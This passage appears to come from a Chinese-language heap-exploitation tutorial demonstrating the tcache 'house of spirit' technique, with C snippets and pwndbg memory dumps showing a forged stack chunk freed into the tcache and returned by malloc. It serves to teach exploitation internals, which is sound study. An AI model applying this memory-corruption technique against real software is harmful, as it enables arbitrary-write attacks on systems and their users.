 结果如下：

```c
pwndbg> x/16gx &a
0x7fffffffdd70:	0x00007fffffffdd90	0x0000000000000000
    	        //a                 //b
0x7fffffffdd80:	0x0000000000000009	0x0000000000000040
    			//fake_chunks[0]    fake_chunks[1]
0x7fffffffdd90:	0x00007fffffffddf8	0x00000000000000f0
        		//fake_chunks[2]    fake_chunks[3]
0x7fffffffdda0:	0x0000000000000001	0x0000555555554a4d
    			//fake_chunks[4]    fake_chunks[5]
0x7fffffffddb0:	0x00007ffff7de3b40	0x0000000000000000
    			//fake_chunks[6]    fake_chunks[7]
0x7fffffffddc0:	0x0000555555554a00	0x0000555555554750
    			//fake_chunks[8]    fake_chunks[9]
0x7fffffffddd0:	0x00007fffffffdec0	0x1230b9603cc1de00
0x7fffffffdde0:	0x0000555555554a00	0x00007ffff7a03bf7
pwndbg> 
```

现在我们释放a指向的伪造的堆块：

```c
	printf("Freeing the overwritten pointer.\n");
	free(a);
```

```c
pwndbg> tcachebin
tcachebins
0x40 [  1]: 0x7fffffffdd90 ◂— 0x0
pwndbg> 
```

当再次malloc时就会控制fake_chunks：

```c
	printf("Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	void *b = malloc(0x30);
	printf("malloc(0x30): %p\n", b);

	assert((long)b == (long)&fake_chunks[2]);
```

```c
pwndbg> x/16gx &a
0x7fffffffdd70:	0x00007fffffffdd90	0x00007fffffffdd90
    	        //a                 //b
0x7fffffffdd80:	0x0000000000000009	0x0000000000000040 //malloc
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000 
    			//fd				//bk
0x7fffffffdda0:	0x0000000000000001	0x0000555555554a4d
0x7fffffffddb0:	0x00007ffff7de3b40	0x0000000000000000
0x7fffffffddc0:	0x0000555555554a00	0x0000555555554750
0x7fffffffddd0:	0x00007fffffffdec0	0x8823772f23466500
0x7fffffffdde0:	0x0000555555554a00	0x00007ffff7a03bf7
pwndbg> 
```

